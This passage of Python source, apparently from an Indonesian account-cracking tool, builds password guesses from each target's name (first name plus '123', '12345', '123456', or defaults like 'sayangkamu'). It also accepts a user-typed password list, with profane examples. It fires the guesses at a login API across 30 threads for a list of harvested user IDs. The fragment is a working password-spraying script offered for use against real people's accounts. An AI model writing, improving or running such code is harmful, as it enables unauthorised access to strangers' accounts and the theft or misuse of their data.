 								if len(frist)>=6:
									fii = [ name, frist[0], frist[0]+"123", frist[0]+"12345", frist[0]+"123456" ]
								elif len(frist)<=2:
									fii = [ name, frist[0], frist[0]+"123", frist[0]+"12345", frist[0]+"123456" ]
								elif len(frist)<=3:
									fii = [ name, frist[0], frist[0]+"123", frist[0]+"12345", frist[0]+"123456" ]
								else:
									fii = [ "bissmilah", "anjing", "indonesia", "sayangkamu" ]
								coeg.submit(api, uid, fii)
						exit()
				else:print(f"{P}[•]{M} Eror");exit()
			except (KeyError,IOError):print(f"{P}[•]{M} Eror");exit()

		else:
			print(f"{B} | ")
			print(f"{P}[•] Crack menggunakan password manual/default {B}M/D")
			print(f"{B} | ")
			ter =input(f"{P}[•] Pilih : {B}")
			if ter in ["m","M"]:
				with ThreadPoolExecutor(max_workers=30) as coeg:
					print(f"{B} | ")
					print(f"{B} | ")
					print(f"{P}[•] Contoh password : {B}sayang,anjing,kontol")
					print(f"{B} | ")
					asu = input(f"{P}[•] Buat sandi : {B}").split(",")
					if len(asu) =="":
						print(f"{B} | ")
						print(f"{B} | ")
						print(f"{P}[•]{M} Sandi tidak boleh kosong")
					started()
					for user in id:
						uid, name = user.split("<=>")
						coeg.submit(api, uid, asu)
				exit()
			elif ter in ["d","D"]:
				with ThreadPoolExecutor(max_workers=30) as coeg:
					started()
					for user in id:
						uid, name = user.split("<=>")
						frist=name.split(" ")
						if len(frist)>=6:
							fii = [ name, frist[0], frist[0]+"123", frist[0]+"12345", frist[0]+"123456" ]
						elif len(frist)<=2:
							fii = [ name, frist[0], frist[0]+"123", frist[0]+"12345", frist[0]+"123456" ]
						elif len(frist)<=3:
							fii = [ name, frist[0], frist[0]+"123", frist[0]+"12345", frist[0]+"123456" ]
						else:
							fii = [ "bissmilah", "anjing", "indonesia", "sayangkamu" ]

						coeg.submit(apiiii, uid, fii)
				exit()
